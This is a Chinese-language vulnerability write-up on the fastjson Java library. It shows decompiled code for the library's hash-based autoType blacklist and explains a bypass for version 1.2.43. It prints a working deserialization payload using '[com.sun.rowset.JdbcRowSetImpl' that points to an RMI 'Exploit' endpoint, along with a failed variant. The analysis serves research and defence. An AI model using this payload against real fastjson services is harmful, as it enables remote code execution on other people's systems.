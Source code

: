 ```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    className = className.substring(1, className.length() - 1);
}
```

> 在比较hashCode的时候看到了一些小细节，本来只需要对每个类名计算一次hash并进行黑白名单对比即可，但在下面代码可以看到，会从第4个字符开始分别与hash值做异或，再进行判断，也是为了提高一些攻击门槛把，但最后还是被对比了出来，真的是世上本没有漏洞，自从有了安全研究后，漏洞就层出不穷，哈哈 ...

```java
for(i = 3; i < className.length(); ++i) {
    hash ^= (long)className.charAt(i);
    hash *= 1099511628211L;
    if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
        if (clazz != null) {
            return clazz;
        }
    }

    if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
        throw new JSONException("autoType is not support. " + typeName);
    }
}
```

---

# 版本1.2.43

## 绕过原因

直接放出payload，运行即可绕过黑名单执行命令，关键部分为：**[com.sun.rowset.JdbcRowSetImpl**

```java
"{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[,{ \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}"
```

可以看到在核心部分后还有`[{` 两个字符，尝试先传入没有这两个字符的`payload`，出现错误

```java
"{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}"

// 异常显示在第42个字符位置，期望传入的是一个"["，但是现在是一个逗号","
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,, pos 42, json : {"@type":"[com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":false}
```
